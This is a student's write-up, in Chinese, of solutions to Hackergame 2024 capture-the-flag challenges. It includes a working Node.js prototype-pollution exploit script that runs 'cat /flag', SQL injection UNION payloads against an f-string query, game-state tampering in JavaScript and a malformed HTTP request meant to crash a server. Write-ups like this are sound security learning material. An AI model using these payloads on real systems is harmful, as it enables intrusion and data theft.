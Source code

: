 # Ethan's Write-Up

> [!NOTE]
>
> 前言：笔者是比赛周期中考试的高二菜鸡，因此只参加了 24 小时的 Hackergame，因此并没有做出多少题目

## 签到

签到题应该算是简单的。打开控制台，看到是 `inputs-container` 组件，于是 `querySelectorAll('*')` 一下，就差不多了。

```js
document.getElementById('inputs-container').querySelectorAll('*').forEach(x => x.value = x.placeholder.includes(':') ? x.placeholder.split(': ')[1] : x.placeholder.split('：')[1])
```

然后就「等不及了，马上启动！」

## 喜欢做签到题的 CTFer 们大家好啊

> 有一个问题，就是最开始开代理时无法访问

Google 搜了好久，找到链接：https://github.com/Nebula-CTFTeam/.github。点击去链接，习惯性 `help`，一个个试，到 `env` 就出来了第一个 Flag：

![hello](./assets/QQ_1731146560104.png)

然后点到 `source` 控制台，点开 Network，找到了 `env` 命令的后台代码（其实是疯狂找源代码里的 `flag`）

![hello](./assets/QQ_1731146990292.png)

然后找到第一个发现是 `base64` 编码的，后面一个又找了找就来了。

## 打不开的盒

Xcode 打开看了看就搞定了

![hello](./assets/QQ_1731147105682.png)

## 每日论文太多了！

点进论文，直接搜 `flag` 结果找到东西：

![QQ_1731147155436](/Users/ethangoh/Developer/hackergame2024-writeups/players/7086cmd/assets/QQ_1731147155436.png)

找到那里，然后把东西滑下来，搞定。

<img src="./assets/QQ_1731147218852.png" alt="QQ_1731147218852" style="zoom:33%;" />

> 这下知道怎么论文藏私货了

## 比大小王

发现 `state` 全局变量，本来篡改 score1 以为可以了，结果「非法提交」。

于是只能当人机了：

```js
state.inputs = state.values.filter((_, idx) => idx !== 99).map(x => x[0] < x[1] ? '<' : '>')
state.score1 = 99
chooseAnswer(state.values[99][0] < state.values[99][1] ? '<' : '>')
```

可是还是让小孩哥写了几道题……

## Node.js is Web Scale

目标是执行 `cat /flag` 命令，因此简单看一下。直接 `__proto__.evil` 就可以了。

```http
POST /set
Content-Type: application/json

{
    "key": "__proto__.evil",
    "value": "cat /flag" 
}
```

然后简单的 `execulate` 一下，即可。懒得手写代码，让 `Claude` 写一下：

```js
async function pollute(cmd) {
    const res = await fetch('/set', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            key: '__proto__.evil',
            value: cmd
        })
    });
    return await res.text();
}

async function execute() {
    const res = await fetch('/execute?cmd=evil');
    return await res.text();
}

async function check() {
    const res = await fetch('/get?key=__proto__');
    return await res.text();
}

// One-liner exploit function
async function pwn(cmd) {
    console.log('[+] Polluting with command:', cmd);
    await pollute(cmd);
    console.log('[+] Checking pollution:');
    console.log(await check());
    console.log('[+] Executing:');
    console.log(await execute());
}

pwn('cat /flag')
```

## PaoluGPT

典型的数据库注入题目。

```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

用 `f-string` 于 SQL 也是逆天。

### 千里挑一

```sql
' UNION SELECT title, contents FROM messages WHERE contents LIKE '%flag%' --
```

然后翻到页底就找到了

### 发现未知

```sql
1' UNION SELECT id, title FROM messages WHERE shown = false AND (title LIKE '%flag{%' OR contents LIKE '%flag{%') --
```

## 惜字如金 3.0

### A

发给 Claude 解决了

## 优雅的不等式

### Easy

发现
$$
\int_0^1\dfrac{4}{1+x^2}=\int_0^14\sqrt{1-x^2}=\pi
$$
因此，直接 $\dfrac{4}{1+x^2}-\dfrac{14}{3}+4x$ 即可。

## 动画分享

### 只要不停下 HTTP 服务，响应就会不断延伸

作为一个 [Rustacean](https://github.com/7086cmd)，自然看到最容易 `panic` 的不是 `unwrap`，而是：

```rust
let your_string = "😅"
println!("{}", your_string[1..])
```

这下就 panic 了！

```http
GET 😅 HTTP/1.1
```

## 禁止内卷

看到 `os.path.join`，伪造一个文件即可（代码学校写的）。
